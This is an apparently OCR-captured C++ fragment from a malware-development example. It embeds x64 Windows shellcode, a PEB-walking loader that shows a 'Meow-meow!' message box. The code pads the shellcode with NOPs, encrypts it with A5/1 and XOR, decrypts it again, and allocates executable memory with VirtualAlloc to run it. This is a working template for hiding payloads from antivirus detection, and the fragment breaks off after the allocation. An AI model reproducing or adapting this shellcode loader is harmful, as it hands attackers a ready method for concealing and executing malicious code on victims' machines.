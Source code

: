 ```cpp
  unsigned char message[] = { 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0, 0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48, 0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0, 0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41, 0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e, 0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0, 0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d, 0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77, 0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0 };
  int key_len = sizeof(key);

  int my_payload_len = sizeof(message);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;

  unsigned char padded[pad_len];
  // memset(padded, 0x90, pad_len);
  // memcpy(padded, message, my_payload_len);

  memcpy(padded, message, my_payload_len);
  memset(padded + my_payload_len, 0x90, pad_len - my_payload_len);

  printf("\noriginal shellcode: \n");
  for (int i = 0; i < sizeof(message); i++) {
    printf("%02x ", message[i]);
  }
  printf("\n\n");

  printf("\npadded message: \n");
  for (int i = 0; i < sizeof(padded); i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  unsigned char encrypted[pad_len];
  a5_1_encrypt(key, key_len, padded, pad_len, encrypted);
  XOR((char *) encrypted, pad_len, my_secret_key, sizeof(my_secret_key));

  printf("\nencrypted message: \n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", encrypted[i]);
  }
  printf("\n\n");

  unsigned char decrypted[pad_len];
  XOR((char *) encrypted, pad_len, my_secret_key, sizeof(my_secret_key));
  a5_1_decrypt(key, key_len, encrypted, pad_len, decrypted);

  printf("\ndecrypted message:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", decrypted[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
